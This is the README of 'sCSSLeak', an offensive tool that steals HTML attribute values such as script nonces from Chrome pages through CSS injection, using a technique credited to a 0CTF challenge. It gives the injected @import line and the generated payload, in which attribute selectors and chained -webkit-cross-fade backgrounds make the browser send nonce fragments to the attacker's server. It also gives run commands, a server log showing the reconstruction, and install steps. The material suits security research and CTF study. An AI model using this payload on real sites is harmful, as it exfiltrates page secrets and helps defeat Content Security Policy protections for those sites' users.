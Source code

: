 # sCSSLeak
This tool allows to leak HTML tag attributes using a standalone CSS file. The technique is solely inspired by [`newdiary`](https://blog.huli.tw/2023/12/11/en/0ctf-2023-writeup/#web-newdiary-14-solves) from 0CTF.


## Leak Technique 

The approach involves finding a method to assign multiple background images to a single element **using a standalone CSS file**, ensuring that the browser fetches all of them. The [`cross-fade()`](https://developer.mozilla.org/en-US/docs/Web/CSS/cross-fade) CSS function accepts two images and a percentage as input and produces an image obtained by blending the two images.

# Attack Prerequisites 

- Style tag injection 
- Target attribute must not have ```type=hidden``` (which is usually the case) but still useful for leaking tags such as `script[nonce]` and others

This will only work on Chrome as other browsers do not support `cross-fade`


# Configuration

The script will retrieve and reconstruct the nonces from the requests and print them to both the console where the script was executed and the **/loot** endpoint.

- `--base_url`: The base URL of the server.
- `--nonce_len`: The length of the nonce to be retrieved.
- `--tag`: A tag to identify the type of requests.
- `--attr`: The attribute name containing the nonce.
- `--port` port 
- `--charset` default='abcdefghijklmnopqrstuvwxyz0123456789'

# Usage

To leak the nonce attribute from the script tag i.e: 

```html 
<head>
<style>@import url(http://127.0.0.1:8081/leak);</style>
</head>
<body>
  <script nonce="[random string]"></script>
</body>
```

The script must be executed as follows: 

```bash
python3 main.py --base_url http://127.0.0.1:8081 --nonce_len 26 --tag script --attr nonce --port 8081
```

Which can then be imported as:

```<style> @import url(http://127.0.0.1:8081/leak); </style>```

Which should have already initiatied the `/leak` endpoint with the following structure

```css
script[nonce*='aaa']{ --aaa: url('http://127.0.0.1:8081/leak?x=aaa'); }
script[nonce*='aab']{ --aab: url('http://127.0.0.1:8081/leak?x=aab'); }
...
...
script{display:block;}script { background-image: -webkit-cross-fade(-webkit-cross-fade(var(--aaa, none), var(--aab, none), 50%), -webkit-cross-fade(var(--aac, none), var(--aad, none), 50%), 50%), -webkit-cross-fade(-webkit-cross-fade(var(--aae, none), var(--aaf, none), 50%), -webkit-cross-fade(var(--aag, none), var(--aah, none), 50%), 50%), -webkit-cross-fade(-webkit-cross-fade(var(--aai, none), var(--aaj, none), 50%), -webkit-cross-fade(var(--aak, none), var(--aal, none), 50%), 50%)
...
```

After execution, the http log should look like the following

```
127.0.0.1 - - [24/Jan/2024 05:15:24] "GET /leak HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=bnm HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=cvb HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=fkg HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=fsp HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=efs HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=ghj HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=hjy HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=mwe HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=krz HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=nmw HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=jyk HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=kgh HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=pxe HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=rzx HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=spx HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=wef HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=vbn HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=xcv HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=29f HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=ykr HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=9fk HTTP/1.1" 200 -
[+] leaked nonce: 4329fkghjykrzxcvbnmwefspxe
[+] leaked nonce: 4329fkghjykrzxcvbnmwefspxe
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=329 HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=zxc HTTP/1.1" 200 -
127.0.0.1 - - [24/Jan/2024 05:15:26] "GET /leak?x=432 HTTP/1.1" 200 -
```

The leaked value can then be found on the `/loot` endpoint as well as the terminal.


# Installation 

Clone the repository & Install the dependencies
```
git clone https://github.com/ixSly/sCSSLeak
cd sCSSLeak
python3 -m pip install -r requirements.txt
```

# Resources

- [newdiary - 0CTF Challenge](https://blog.huli.tw/2023/12/11/en/0ctf-2023-writeup/#web-newdiary-14-solves)
- [Code Vulnerabilities Put Proton Mails at Risk](https://www.sonarsource.com/blog/code-vulnerabilities-leak-emails-in-proton-mail/)

- [ What can we do with single CSS injection? ](https://www.reddit.com/r/Slackers/comments/dzrx2s/what_can_we_do_with_single_css_injection/)

- [One Shot CSS Injection ](https://waituck.sg/2023/12/11/0ctf-2023-newdiary-writeup.html)

